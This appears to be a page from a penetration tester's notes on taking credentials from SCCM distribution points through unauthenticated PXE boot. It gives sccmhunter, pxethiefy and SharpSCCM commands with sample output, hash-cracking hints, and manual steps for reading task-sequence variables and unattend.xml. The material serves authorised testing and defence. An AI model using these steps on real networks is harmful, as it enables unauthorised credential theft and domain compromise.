 ```yaml
---
title: SCCM PXE Boot
---
```


You can steal credentials from SCCM distribution points without authentication if PXE boot is configured and no PXE password is set aka the media variables don't have password protection.

Discover SCCM servers and check if they provide PXE boot.

=== "[[notes/tools/sccmhunter]] + [[notes/tools/pxethiefy]]"
    ~~~
    ❯ sccmhunter smb -debug -dc-ip dc01.corp.local -d corp.local -u jdoe -p 'passw0rd' -save
    [13:42:00] DEBUG    [+] Found \\sccm01.corp.local\REMINST\SMSTemp\2023.05.16.15.00.29.0001.{11111111-7021-4D21-A7AC-522D2B0EDC6A}.boot.var
    [13:42:00] INFO     +----+--------------------+-------------+------------------+---------------+----------------------+--------+---------+
                        |    | Hostname           | Site Code   | Signing Status   | Site Server   | Distribution Point   | WSUS   | MSSQL   |
                        +====+====================+=============+==================+===============+======================+========+=========+
                        |  0 | sccm01.corp.local  | CRP         | False            | True          | True                 | True   | True    |
                        +----+--------------------+-------------+------------------+---------------+----------------------+--------+---------+
    ❯ sudo pxethiefy explore -a sccm01.corp.local
    [+] Successfully decrypted media variables file with the provided password!
    [+] You can use the following information with SharpSCCM in an attempt to obtain secrets from the Management Point..
    SharpSCCM.exe get secrets -i "{66666666-44e4-4755-af3b-4b5504c6b397}" -m "88888888-07e8-488c-9426-49ec1e1c2c63" -c "30821A1..." -sc CRP -mp sccm01.corp.local
    ~~~

If password protection is present you need to compile the [ConfigMgr CryptDeriveKey Hashcat Module](https://github.com/MWR-CyberSec/configmgr-cryptderivekey-hashcat-module) and try to crack the password.
Otherwise you can boot a Windows laptop via PXE, begin the installation and press *F8*.
Then check the environment variables `_SMSTSReserved1` and `_SMSTSReserved2` as well as the `C:\Windows\panther\unattend\unattend.xml` file for credentials.

Other tools:

- [PXEThief](https://github.com/MWR-CyberSec/PXEThief), original tool by Christopher Panayi, requires Windows

References:

- [Pulling passwords out of Configuration Manager - Christopher Panayi - DEF CON 30](https://www.youtube.com/watch?v=Ly9goAud0gs)
